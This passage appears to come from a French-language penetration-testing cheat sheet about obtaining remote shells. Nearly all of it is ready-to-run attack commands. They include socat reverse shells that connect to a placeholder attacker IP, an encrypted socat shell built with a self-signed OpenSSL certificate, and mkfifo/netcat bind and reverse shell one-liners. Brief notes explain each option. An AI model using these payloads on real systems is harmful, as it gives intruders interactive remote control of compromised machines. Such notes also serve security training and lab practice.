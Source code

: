 ```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

- pty : Alloue un pseudo terminal sur la cible
- stderr : Toutes les erreurs sont affichés sur le shell
- sigint : Active les Ctrl-C
- setsid : crée le processus dans une nouvelle session
- sane : Essaye de stabiliser le shell

#### *Ecrypted shell with Socat*

Tout d'abord, il faudra crée un certificat auto-signé avec OpenSSL.

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Ensuite on va regrouper le fichier .key et le fichier .crt en un seul fichier .pem

```bash
cat shell.key shell.crt > shell.pem
```

Pour écouter :

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Pour se connecter :

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

Combinaison des deux techniques :

```bash
socat OPENSSL-LISTEN:<PORT>,cert=<FILE.pem>,verify=0 FILE:`tty`,raw,echo=0
```

et pour se connecter : 

```bash
socat openssl:<IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## 4) Common Payload

Pour écouter (bind shell) :

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Pour se connecter (reverse shell) :

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
